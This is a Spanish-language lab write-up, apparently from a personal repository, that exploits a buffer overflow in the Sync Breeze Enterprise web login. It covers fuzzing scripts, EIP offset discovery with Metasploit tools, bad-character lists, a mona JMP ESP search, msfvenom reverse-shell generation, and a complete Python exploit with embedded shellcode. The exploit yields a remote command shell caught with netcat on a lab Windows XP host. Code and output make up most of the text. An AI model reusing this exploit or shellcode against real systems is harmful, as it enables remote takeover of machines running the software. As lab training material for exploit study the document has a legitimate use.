










## Instalación

Ejecutamos la aplicación como adminsitrador.  
Damos a `next` en todos los pasos.



Vemos que el servicio estará disponible desde el puerto 80



Y esperamos a que finalize



Abrimos el la intefar de `Sync Breeze Client` y nos dirigimos a la opcion de `Advanced Options`



Configuramos el servicio web



----

## Fuzzing

Construiremos un fuzzer para conocer el tamaño de bytes en el que crashea la aplicación.  
Desde la web veremos un login cuyo parametro vulnerable es el input de `User Name`



Con BurpSuite interceptaremos la petición para la creacion del PoC



```
#!/usr/bin/python

import socket, time, sys

size = 100

while (size < 2000):
	try:
		print "[+] Sending buffer %s bytes" %size
		buffer = "A" * size
		fuzz = "username=" + buffer + "&password=A"

		buff = "POST /login HTTP/1.1\r\n"
		buff += "Host: 192.168.0.105\r\n"
		buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
		buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
		buff += "Accept-Language: en-US,en;q=0.5\r\n"
		buff += "Accept-Encoding: gzip, deflate\r\n"
		buff += "Referer: http://192.168.0.105/login\r\n"
		buff += "Content-Type: application/x-www-form-urlencoded\r\n"
		buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
		buff += "\r\n"
		#buffer += "Connection: close\r\n"
		#buffer += "Upgrade-Insecure-Requests: 1\r\n"

		buff += fuzz

		s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("192.168.0.105", 80))
		s.send(buff)
		s.close()

		size += 100
		time.sleep(5)

	except Exception as e:
		print str(e)
		sys.exit(1)
```

> Para resetear el programa presiono `ctrl+d` y escribo `services.msc`, busco el servicio `Sync Breeze Enterprice` y elijo la opción `start` para inciar.

----

## Encontrar EIP

```
#!/usr/bin/python

import socket, time, sys

try:
	print "[+] Sending buffer"
	size = "Aa0Bd6Bd7Bd8Bd9[...]" # length 9000 bytes
	fuzz = "username=" + size + "&password=A"

	buff = "POST /login HTTP/1.1\r\n"
	buff += "Host: 192.168.0.105\r\n"
	buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
	buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buff += "Accept-Language: en-US,en;q=0.5\r\n"
	buff += "Accept-Encoding: gzip, deflate\r\n"
	buff += "Referer: http://192.168.0.105/login\r\n"
	buff += "Content-Type: application/x-www-form-urlencoded\r\n"
	buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
	buff += "\r\n"

	buff += fuzz

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.105", 80))
	s.send(buff)
	s.close()

except Exception as e:
	print str(e)
	sys.exit(1)
```

```
❯ python fuzzing.py
[+] Sending buffer 100 bytes
[+] Sending buffer 200 bytes
[+] Sending buffer 300 bytes
[+] Sending buffer 400 bytes
[+] Sending buffer 500 bytes
[+] Sending buffer 600 bytes
[+] Sending buffer 700 bytes
[+] Sending buffer 800 bytes
```

```
❯ sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 900
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6[...]Ac7Ac8Ac9Ad0A
```

```
❯ sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 42306142
[*] Exact match at offset 780
```
----

## Sobreescribir EIP

```
#!/usr/bin/python

import socket, time, sys

try:
	print "[+] Sending buffer"

	size = "A"*780 + "B"*4 + "C"*20

	fuzz = "username=" + size + "&password=A"

	buff = "POST /login HTTP/1.1\r\n"
	buff += "Host: 192.168.0.105\r\n"
	buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
	buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buff += "Accept-Language: en-US,en;q=0.5\r\n"
	buff += "Accept-Encoding: gzip, deflate\r\n"
	buff += "Referer: http://192.168.0.105/login\r\n"
	buff += "Content-Type: application/x-www-form-urlencoded\r\n"
	buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
	buff += "\r\n"

	buff += fuzz

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.105", 80))
	s.send(buff)
	s.close()

except Exception as e:
	print str(e)
	sys.exit(1)
```



## Encontrar badchars

```
\x00\x0a\x0d\x25\x26\x2b\x3d
```

----

## Buscar el módulo adecuado

```
!mona modules
```



```
!mona find -s "\xff\xe4" -m libspp.dll
```



Dirección: ```0x10090c83```

----

## Generar shellcode

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 EXITFUNC=thread -b "\x00\0a\0d\x25\x26\x2b\x3d" -f c
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c
```

## Accediendo al sistema

```
#!/usr/bin/python

import socket, time, sys

# \x00\x0a\x0d\x25\x26\x2b\x3d

shellcode = ("\xb8\x0e\xad\x46\xbb\xda\xdb\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x43\x12\x83\xeb\xfc\x03\x4d\xa3\xa4\x4e\xad\x53\xaa"
"\xb1\x4d\xa4\xcb\x38\xa8\x95\xcb\x5f\xb9\x86\xfb\x14\xef\x2a"
"\x77\x78\x1b\xb8\xf5\x55\x2c\x09\xb3\x83\x03\x8a\xe8\xf0\x02"
"\x08\xf3\x24\xe4\x31\x3c\x39\xe5\x76\x21\xb0\xb7\x2f\x2d\x67"
"\x27\x5b\x7b\xb4\xcc\x17\x6d\xbc\x31\xef\x8c\xed\xe4\x7b\xd7"
"\x2d\x07\xaf\x63\x64\x1f\xac\x4e\x3e\x94\x06\x24\xc1\x7c\x57"
"\xc5\x6e\x41\x57\x34\x6e\x86\x50\xa7\x05\xfe\xa2\x5a\x1e\xc5"
"\xd9\x80\xab\xdd\x7a\x42\x0b\x39\x7a\x87\xca\xca\x70\x6c\x98"
"\x94\x94\x73\x4d\xaf\xa1\xf8\x70\x7f\x20\xba\x56\x5b\x68\x18"
"\xf6\xfa\xd4\xcf\x07\x1c\xb7\xb0\xad\x57\x5a\xa4\xdf\x3a\x33"
"\x09\xd2\xc4\xc3\x05\x65\xb7\xf1\x8a\xdd\x5f\xba\x43\xf8\x98"
"\xbd\x79\xbc\x36\x40\x82\xbd\x1f\x87\xd6\xed\x37\x2e\x57\x66"
"\xc7\xcf\x82\x29\x97\x7f\x7d\x8a\x47\xc0\x2d\x62\x8d\xcf\x12"
"\x92\xae\x05\x3b\x39\x55\xce\x84\x16\x55\x65\x6d\x65\x55\x68"
"\x31\xe0\xb3\xe0\xd9\xa4\x6c\x9d\x40\xed\xe6\x3c\x8c\x3b\x83"
"\x7f\x06\xc8\x74\x31\xef\xa5\x66\xa6\x1f\xf0\xd4\x61\x1f\x2e"
"\x70\xed\xb2\xb5\x80\x78\xaf\x61\xd7\x2d\x01\x78\xbd\xc3\x38"
"\xd2\xa3\x19\xdc\x1d\x67\xc6\x1d\xa3\x66\x8b\x1a\x87\x78\x55"
"\xa2\x83\x2c\x09\xf5\x5d\x9a\xef\xaf\x2f\x74\xa6\x1c\xe6\x10"
"\x3f\x6f\x39\x66\x40\xba\xcf\x86\xf1\x13\x96\xb9\x3e\xf4\x1e"
"\xc2\x22\x64\xe0\x19\xe7\x84\x03\x8b\x12\x2d\x9a\x5e\x9f\x30"
"\x1d\xb5\xdc\x4c\x9e\x3f\x9d\xaa\xbe\x4a\x98\xf7\x78\xa7\xd0"
"\x68\xed\xc7\x47\x88\x24")

try:
	print "[+] Sending buffer"

	size = "A"*780 + "\x83\x0c\x09\x10" + "\x90"*10 + shellcode

	fuzz = "username=" + size + "&password=A"

	buff = "POST /login HTTP/1.1\r\n"
	buff += "Host: 192.168.0.105\r\n"
	buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
	buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buff += "Accept-Language: en-US,en;q=0.5\r\n"
	buff += "Accept-Encoding: gzip, deflate\r\n"
	buff += "Referer: http://192.168.0.105/login\r\n"
	buff += "Content-Type: application/x-www-form-urlencoded\r\n"
	buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
	buff += "\r\n"

	buff += fuzz

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.105", 80))
	s.send(buff)
	s.close()

except Exception as e:
	print str(e)
	sys.exit(1)
```


```
❯ python exploit.py
[+] Sending buffer

──────────────────────────────────────────────────────────────

❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.105] 1100
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        IP Address. . . . . . . . . . . . : 192.168.0.105
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.0.1
```

